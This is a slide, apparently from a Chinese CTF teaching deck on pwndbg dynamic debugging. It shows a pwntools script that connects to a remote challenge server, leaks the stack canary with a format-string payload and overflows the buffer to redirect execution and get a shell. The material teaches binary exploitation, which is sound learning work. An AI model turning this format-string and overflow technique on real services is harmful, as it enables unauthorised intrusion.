

# （二）动态调试-pwndbg
2.构建payload
from pwn import *   #引入pwntools
p = remote(“59.110.164.72”, 10001)  #远程连接
#p = process(“./makewishes”)          #本地
p.send(b“0”)                                     #发送第一个read
p.sendline(b“7”)                                #give a number
payload = b“%11$p”                          #泄露canary
p.send(payload)
p.recvuntil(b"0x")
canary = int(p.recv(16),16)
p.sendline(b“2”)                                       #give a number
payload = b"a"*0x28+p64(canary) +b'a'*8 + p64(0x4011D6)
p.sendline(payload)                                  #发送payload覆盖返回地址
p.interactive()                                           #交互，拿到系统命令权限